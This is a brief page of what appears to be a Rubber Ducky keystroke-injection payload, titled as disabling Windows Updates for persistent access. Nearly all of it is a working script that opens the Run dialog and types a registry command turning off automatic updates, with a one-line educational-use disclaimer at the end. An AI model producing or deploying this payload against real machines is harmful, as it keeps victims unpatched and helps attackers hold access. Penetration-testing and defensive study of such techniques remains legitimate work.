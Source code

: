 # Disabling Windows Updates for Persistent Access

Disables Windows updates by modifying the registry, preventing automatic updates and patching.

```
DELAY 500
GUI r
DELAY 200
STRING reg add "HKLM\\SOFTWARE\\Policies\\Microsoft\\Windows\\WindowsUpdate\\AU" /v NoAutoUpdate /t REG_DWORD /d 1 /f
ENTER
```

> Disclaimer: This script is for educational purposes and should only be used in environments where you have explicit authorization to perform penetration testing. Always follow ethical guidelines and laws governing cybersecurity practices.